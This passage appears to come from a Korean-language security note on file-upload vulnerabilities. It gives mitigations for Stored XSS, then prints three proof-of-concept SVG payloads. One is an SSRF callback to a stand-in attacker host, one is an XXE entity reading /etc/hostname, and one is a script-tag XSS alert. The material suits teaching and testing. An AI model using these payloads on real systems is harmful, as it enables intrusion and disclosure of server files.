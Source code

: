 #### 방지 방법
- **파일 크기 제한**: 업로드 가능한 파일 크기를 제한.
- **데이터 처리 로직 분리**: Content-Type과 파일 내용을 일치시키는 별도의 검증 단계 추가.

### 5. **클라이언트 공격 (Stored XSS)**
악성 파일이 잘못된 Content-Type으로 처리되어 클라이언트에 전달되면, 클라이언트 측 공격으로 이어질 수 있습니다.

#### 시나리오
- 공격자가 악성 JavaScript가 포함된 HTML 파일을 업로드하면서 Content-Type을 `image/png`으로 설정.
- 파일이 안전한 이미지 파일로 처리되어 클라이언트에 제공.
- 사용자가 파일을 열 때 악성 스크립트가 실행되어 **Stored XSS** 발생.

#### 방지 방법
- **파일 형식 화이트리스트**: 업로드를 허용하는 파일 형식을 명확히 제한.
- **출력 인코딩**: 파일 이름이나 내용이 사용자에게 노출될 경우 적절히 인코딩.

## SGV 파일의 취약점

### Case 1: SSRF

For this exploit, an attacker needs to create an SVG file with the below content and change the controlled server URL to its own server:
```html
<svg xmlns:svg=”http://www.w3.org/2000/svg" xmlns=”http://www.w3.org/2000/svg" xmlns:xlink=”http://www.w3.org/1999/xlink" width=”200" height=”200">

<image height=”30" width=”30"

xlink:href=”https://controlledserver.com/pic.svg" />

</svg>
```
If they upload this file to the application, there will be a callback if the application is vulnerable.

### Case 2: XXE

Here, attackers create an SVG file with the content shown below, and if the server is vulnerable the content of the local file is visible either in the response or in the image itself.
```html
<?xml version=”1.0" standalone=”yes”?><!DOCTYPE test [ <!ENTITY xxe SYSTEM “file:///etc/hostname” > ]><svg width=”128px” height=”128px” xmlns=”http://www.w3.org/2000/svg" xmlns:xlink=”http://www.w3.org/1999/xlink" version=”1.1"><text font-size=”16" x=”0" y=”16">&xxe;</text></svg>
```

### Case 3: Cross Site Scripting

In this case, attackers need to create an SVG file with the below content. If the server is vulnerable, they will see a pop-up showing that it is.
```html
<svg xmlns=”http://www.w3.org/2000/svg">

<script>alert(‘XSS’);</script>

<rect x=”0" height=”100" width=”100" style=”fill: #cccccc”/>

<line x1=”20" y1=”80" x2=”80" y2=”80" style=”stroke: #ff0000; stroke-width: 5;”/>

</svg>
```
